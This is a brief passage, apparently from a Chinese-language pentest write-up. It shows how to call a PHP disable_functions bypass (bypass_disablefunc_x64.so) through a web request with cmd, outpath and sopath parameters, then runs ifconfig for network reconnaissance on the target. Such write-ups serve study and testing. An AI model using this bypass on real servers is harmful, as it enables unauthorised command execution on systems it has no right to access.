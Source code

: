 给出用法

cmd参数后跟命令，outpath后跟命令执行输出的路径，默认是/tmp/xx

以及so文件的路径

```
?cmd=ls&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```

![image-20250406204427173](./assets/image-20250406204427173.png)



查看网卡信息

```
ifconfig
```

